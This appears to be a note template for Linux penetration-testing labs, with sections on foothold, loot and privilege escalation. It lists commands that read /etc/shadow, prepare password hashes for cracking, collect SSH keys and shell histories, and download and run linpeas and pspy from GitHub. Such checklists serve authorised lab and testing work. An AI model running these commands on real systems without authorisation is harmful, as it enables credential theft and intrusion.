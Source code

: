 #show #linux
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

Shell on system: ☑️
System pwned: ✅
# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `cat /home/$(id -un)/local.txt`
	

Upgrade [[1_shells#Upgrades]]
	
##### Users
```bash
cat /etc/passwd; cat /etc/shadow; w
```
	
`unshadow passwd shadow > unshadowed.txt` 
##### Network
```bash
ip a; /sbin/route; netstat -anp; sudo iptables -S
```
	
##### Interesting files
```bash
echo -e "\n## KEYS: ##"; ls /home/*/.gpg/; ls /home/*/.ssh/; echo -e "\n## HISTORY: ##"; cat /home/*/.*_history; echo -e "\n## GIT: ##"; find / -name ".git" 2>/dev/null | cd | git config --list 2>/dev/null; echo -e "\n## MAIL: ##"; ls -alh /var/mail/
```
	
##### Home folder
```bash
ls -al /home/*/; ls -al /root/; find / -user $(id -un) -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
```
	
# PrivEsc
Find Working Dir for attack
```bash
find / -writable -type d -print -quit 2>/dev/null
```
	

### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh &> linpeas.txt & less -r +F linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`
```bash
grep "CRON" /var/log/syslog; dpkg -l
```
Get commands run by non-accessible cronjobs and other tasks
```bash
wget -q https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 && chmod +x pspy32 && timeout 30s ./pspy32 | tr -s ' ' | cut -d ' ' -f 3-4,7- | sed -e 's/$/\x1b[m/' | perl -ne 'BEGIN{$|=1}; print unless ${$_}++'
```

##### Finding 1
